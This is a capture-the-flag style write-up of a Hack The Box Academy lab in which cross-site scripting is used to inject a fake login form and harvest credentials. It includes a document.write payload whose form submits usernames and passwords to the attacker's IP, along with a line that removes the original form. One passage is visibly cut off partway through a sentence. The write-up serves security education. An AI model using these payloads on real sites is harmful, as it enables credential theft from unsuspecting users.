









# Hack The Box Academy - XSS Phishing Attack | Write-up

> **Platform:** Hack The Box Academy &nbsp;•&nbsp; **Category:** Cross-Site Scripting / Credential Harvesting
>
> **Author:** Jithin Jelson

---

The goal of this exercise was to use cross-site scripting on a vulnerable application to harvest user credentials via a phishing attack. This exercise was fairly straightforward and it was created with the assistance of the Cross-Site Scripting module on Hack The Box Academy.

- **Target IP:** `10.129.234.166`
- **My IP:** `10.10.14.88`

---
## Attack Overview


## Reconnaissance

First I ran an Nmap scan to see where our target website was being hosted and whether we could retrieve any further information for this exercise.

We found an HTTP port open on port 80, so we checked that out.


*Figure 1 - Nmap scan showing port 80 open*

When I initially visited the site the homepage was empty. At this point I would attempt a directory enumeration and/or a subdomain enumeration using ffuf/gobuster, but the exercise told us the web page was under `/phishing` so we checked that out.


*Figure 2 - The /phishing page*

---

## XSS Testing

Since we knew that this webpage was vulnerable to XSS, we tested the input field using a simple payload:

```html
<script>alert(1)</script>
```

When we entered the payload we got a broken image, which suggested the payload was unsuccessful. On closer inspection under the browser's developer tools I found a hint about what type of payload to use.


*Figure 3 - Inspect element showing the img src attribute*

We could see it was using an `Please login to continue</h3><form action=http://10.10.14.88><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>')
```

Now we can delete the image URL login box using the following:


*Figure 5 - Login form alongside the original URL form before removal*

```javascript
;document.getElementById('urlform').remove();
```

So our final payload would be:

```javascript
document.write('<h3>Please login to continue</h3><form action=http://10.10.14.88:8080><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
```

One mistake I made here, which I couldn't figure out for a while until I reached out for help via online tutorials, is that my `onerror` used single quotes on the outside and inside, therefore I had to use double quotes on the inside to avoid tricking the server and causing the browser to not understand the payload.

Finally our page was ready.


*Figure 6 - Final phishing login page ready*

---

## Capturing Credentials

Now we can build a PHP script that logs the credentials from the HTTP request to us using Netcat as a listener.


*Figure 7 - PHP script for logging credentials*

When we tried to run the PHP script we came across something already running on port 80.


*Figure 8 - Something already running on port 80*

When we sent the link to `send.php` as the question asked we got a successful username and password.


*Figure 9 - Successful credential capture*


*Figure 10 - Final output*
